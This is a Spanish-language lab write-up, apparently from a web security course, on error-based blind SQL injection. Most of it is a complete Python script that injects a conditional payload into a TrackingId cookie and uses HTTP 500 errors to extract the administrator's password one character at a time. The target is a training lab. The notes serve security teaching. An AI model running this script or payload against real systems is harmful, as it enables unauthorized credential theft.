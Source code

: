 En esta clase continuamos con la explotación de la inyección SQL ciega basada en errores, utilizando las técnicas que vimos anteriormente para completar el proceso de extracción del password del administrador.

Aplicamos lo aprendido para automatizar la obtención de cada carácter de la contraseña utilizando Burp Intruder, apoyándonos en respuestas con error (código 500) para saber si el carácter probado es correcto. Se recorre así toda la cadena de forma sistemática.

Es una continuación directa de la clase anterior, donde verás en práctica cómo automatizar este tipo de ataque para obtener credenciales completas en entornos reales.

Solucion
Se pueden hacer los mismos pasos que la anterior laboratorio pero en este caso vamos a hacer un script para que automatize todo lo anterior
Esto en Burp suite obiamente ya con la intervencion de foxy proxy y ya haciendo los pasos de order by
![Pasted_image_20250703143528.png](/Imagenes/Pasted_image_20250703143528.png)
codigo
![Pasted_image_20250703143230.png](/Imagenes/Pasted_image_20250703143230.png)
![Pasted_image_20250703143151.png](/Imagenes/Pasted_image_20250703143151.png)
lo llamaremos (Solo tenemos que modificar el trackingid, session y la url dando ctrl+shift+c nos vamos a storage o almacenamiento y ahi lo veremos todo)sqli.py
#!/usr/bin/env python3 

from pwn import *
from termcolor import colored 
import requests
import signal 
import sys
import string
import time

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] saliendo...\n", 'red')) 
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""
    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                "TrackingId": f"opTM41c5M3tdYiBB'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else'' end from users where username='administrator') ||'",
                "session": "eeBj0F3YK4uowytrMt8WtFXH7U4GcRVo"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0aed008604509bf28095581100aa00eb.web-security-academy.net", cookies=cookies)

            if r.status_code == 500:
                password += character 
                p2.status(password)
                break

    p1.success("Ataque completado")
    print(colored(f"[+] Contraseña encontrada: {password}", 'green'))

if __name__ == '__main__':
    makeSQLI()

resultado
![Pasted_image_20250703152727.png](/Imagenes/Pasted_image_20250703152727.png)
![Pasted_image_20250703152658.png](/Imagenes/Pasted_image_20250703152658.png)
